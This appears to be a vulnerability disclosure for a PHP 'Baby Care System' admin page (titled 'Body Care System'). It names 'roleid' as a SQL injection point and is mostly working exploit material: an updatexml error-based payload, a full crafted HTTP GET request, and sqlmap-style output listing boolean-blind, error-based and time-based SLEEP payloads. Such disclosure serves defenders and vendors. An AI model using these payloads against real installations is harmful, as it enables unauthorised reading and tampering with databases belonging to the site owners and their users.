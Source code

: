 ## Body Care System has SQL injection vulnerability

vendor: https://www.sourcecodester.com/php/14622/baby-care-system-phpmysqli-full-source-code.html

Vulnerability file: /BabyCare/admin/siteoptions.php &action=displaygoal&value=1&roleid=1

![image](https://user-images.githubusercontent.com/54017627/161356210-d3b64f61-2ff2-4b67-b756-b3811bfb987e.png)


Vulnerability location: /BabyCare/admin.php?id=siteoptions&action=displaygoal&value=1&roleid=1 //roleid is Injection point

[+]Payload: /BabyCare/admin.php?id=siteoptions&action=displaygoal&value=1&roleid=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+  //roleid is Injection point

```sql
GET /BabyCare/admin.php?id=siteoptions&action=displaygoal&value=1&roleid=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+ HTTP/1.1
Host: 192.168.1.19
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=h48mjnelp4g0935821l2k3g5ne
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/161356077-5f38e3a3-3487-46f6-b2f5-28b57d560a29.png)


```sql
---
Parameter: roleid (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: id=siteoptions&action=displaygoal&value=1&roleid=1' RLIKE (SELECT (CASE WHEN (1355=1355) THEN 1 ELSE 0x28 END))-- hyrZ

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=siteoptions&action=displaygoal&value=1&roleid=1' AND (SELECT 9758 FROM(SELECT COUNT(*),CONCAT(0x7162787071,(SELECT (ELT(9758=9758,1))),0x71786a7171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- gGPp

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=siteoptions&action=displaygoal&value=1&roleid=1' AND (SELECT 2161 FROM (SELECT(SLEEP(5)))CrAu)-- SdUW
---
```

![image](https://user-images.githubusercontent.com/54017627/161356181-278bf5aa-cd02-448d-99fe-03491a9623b2.png)
